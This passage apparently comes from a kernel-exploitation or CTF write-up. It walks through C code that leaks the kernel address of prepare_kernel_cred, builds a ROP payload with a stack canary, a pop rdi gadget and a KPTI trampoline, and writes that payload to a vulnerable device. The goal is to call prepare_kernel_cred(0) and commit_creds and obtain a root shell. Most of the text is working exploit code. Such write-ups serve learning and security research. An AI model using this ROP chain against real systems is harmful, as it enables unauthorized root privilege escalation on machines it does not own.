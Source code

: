 This time, we pass control to `leak_pkc` userland function.

```c

void leak_pkc(){
    __asm__(".intel_syntax noprefix;"
            "mov temp_store,rax;"
            ".att_syntax;");
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)temp_store;
    printf("[+] prepare_kernel_cred -> 0x%lx\n",prepare_kernel_cred);
    pkc();
}
```

And finally, we leak `prepare_kernel_cred`.

## prepare_kernel_cred(0)

We will get to our root shell in 2 stages.

+ First, we will call `prepare_kernel_cred(0)` and finally store the value of `cred_structure` into the temporary variable and then call `commit_creds` on that.

```c
void pkc(){
    unsigned long payload[50] = {0};
    int i=0x10;
    pop_rdi = image_base + 0xed00;
    printf("[*] pop_rdi = 0x%lx\n",pop_rdi);
    payload[i++] = canary;
    payload[i++] = 0; //rbx
    payload[i++] = 0; //r12
    payload[i++] = 0; //rbp
    payload[i++] = pop_rdi;
    payload[i++] = 0; //for prepare_kernel_cred(0)
    payload[i++] = 0; //gadget is pop rdi ; pop rbp ; ret
    payload[i++] = prepare_kernel_cred;
    payload[i++] = kpti_trampoline;
    payload[i++] = 0; //rax
    payload[i++] = 0; //rdi
    payload[i++] = (unsigned long)store_rax;
    payload[i++] = user_cs;
    payload[i++] = user_rflags;
    payload[i++] = user_sp;
    payload[i++] = user_ss;
    write(fd,payload,sizeof(payload));
}
```
The control is passed to `store_rax` function.

```c
void store_rax(){
    __asm__(".intel_syntax noprefix;"
            "mov temp_store,rax;"
            ".att_syntax;");
    pkc_struct = temp_store;
    printf("pkc_struct = 0x%lx\n",temp_store);
    cc();
}

```
